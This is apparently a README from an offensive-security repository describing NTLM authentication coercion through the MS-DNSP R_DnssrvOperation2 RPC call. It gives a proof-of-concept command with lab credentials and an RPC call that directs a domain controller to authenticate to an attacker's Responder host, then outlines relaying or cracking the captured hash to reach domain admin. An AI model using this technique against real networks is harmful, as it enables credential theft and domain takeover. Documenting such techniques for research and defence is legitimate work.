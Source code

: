 # MS-DNSP - Remote call to R_DnssrvOperation2 (opnum 5)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvOperation2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/8c0522b1-97fb-4fa7-b4e2-2c55c0afb0e7)

 - **Function operation number**: `5`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvOperation2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/8c0522b1-97fb-4fa7-b4e2-2c55c0afb0e7) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvOperation2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvOperation2(
   [in]                               handle_t                    hBindingHandle,
   [in]                               DWORD                       dwClientVersion,
   [in]                               DWORD                       dwSettingFlags,
   [in, unique, string]               LPCWSTR                     pwszServerName,
   [in, unique, string]               LPCSTR                      pszZone,
   [in]                               DWORD                       dwContext,
   [in, unique, string]               LPCSTR                      pszOperation,
   [in]                               DWORD                       dwTypeId,
   [in, switch_is(dwTypeId)]          DNSSRV_RPC_UNION            pData
 );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvOperation2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/8c0522b1-97fb-4fa7-b4e2-2c55c0afb0e7